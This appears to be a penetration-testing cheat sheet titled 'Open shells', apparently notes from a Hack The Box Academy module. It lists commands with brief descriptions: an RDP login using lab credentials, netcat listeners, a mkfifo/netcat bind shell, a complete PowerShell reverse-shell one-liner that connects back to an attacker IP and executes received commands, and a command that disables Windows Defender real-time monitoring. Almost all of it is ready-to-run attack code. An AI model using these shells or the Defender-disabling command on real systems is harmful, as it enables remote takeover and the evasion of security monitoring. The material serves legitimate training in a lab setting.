 # Open shells

## CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol
```
xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!
```

## Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use
```
env
```

## Starts a `netcat` listener on a specified port
```
sudo nc -lvnp <port #>
```

## Connects to a netcat listener at the specified IP address and port
```
nc -nv <ip address of computer with listener started><port being listened on>
```

## Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

## `Powershell` one-liner used to connect back to a listener that has been started on an attack box
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Powershell command using to disable real time monitoring in `Windows Defender`
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
